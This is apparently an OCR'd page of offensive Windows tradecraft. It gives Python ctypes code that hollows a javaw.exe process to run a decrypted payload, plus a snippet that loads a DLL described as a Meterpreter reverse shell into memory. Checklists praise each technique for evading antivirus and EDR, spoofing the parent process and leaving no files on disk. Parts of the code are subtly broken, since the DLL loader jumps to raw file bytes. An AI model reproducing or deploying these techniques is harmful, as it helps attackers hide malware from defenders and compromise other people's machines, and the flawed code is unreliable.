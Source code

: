 ```python
kernel32.WriteProcessMemory(process_handle, ctypes.c_void_p(new_image_base), decrypted_payload, len(decrypted_payload), None)

# Update Thread Context & Resume
context = (ctypes.c_uint64 * 179)()
kernel32.GetThreadContext(pi._handle, ctypes.byref(context))
context[44] = new_image_base  # Update RIP/EIP register
kernel32.SetThreadContext(pi._handle, ctypes.byref(context))
kernel32.ResumeThread(pi._handle)

print("[*] Payload Executing Inside Javaw.exe")
```
---

🔧 Why This is More Stealthy

✅ Explorer.exe as Parent Process → Makes Java look legitimate in process trees.
✅ AES Encryption for Payload → Evades signature-based detection.
✅ No Files Written to Disk → Runs purely in-memory.
✅ Bypasses Hooks & EDR Monitoring → PPID spoofing disrupts forensic analysis.

1️⃣ Reflective DLL Injection (Bypass Process Monitoring)

💡 Loads a DLL into memory and executes it without writing to disk

Implementation
```
import ctypes
import base64

# Load the DLL (Example: Meterpreter Reverse Shell)
dll_path = "C:\\Users\\Public\\payload.dll"

# Read DLL into memory
with open(dll_path, "rb") as f:
    dll_bytes = f.read()

# Allocate memory for DLL
dll_memory = ctypes.windll.kernel32.VirtualAlloc(None, len(dll_bytes), 0x3000, 0x40)

# Copy DLL into allocated memory
ctypes.windll.kernel32.RtlMoveMemory(dll_memory, dll_bytes, len(dll_bytes))

# Get DLL entry point & execute
dll_entry = ctypes.cast(dll_memory, ctypes.CFUNCTYPE(None))
dll_entry()

print("[*] Reflective DLL Injected & Executed")
```
✅ Bypasses AV/EDR since no file is written
✅ Executes in-memory using VirtualAlloc & RtlMoveMemory


